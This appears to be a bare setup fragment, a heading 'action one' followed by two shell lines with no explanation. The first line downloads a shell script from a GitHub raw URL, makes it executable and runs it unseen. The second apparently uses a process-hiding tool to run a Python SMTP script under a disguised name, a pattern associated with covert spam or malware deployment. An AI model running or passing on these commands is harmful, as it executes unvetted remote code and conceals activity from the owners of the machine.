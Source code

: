 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh
./hi -s "python3 smtp.py" -d -p test.pid ./bhmax
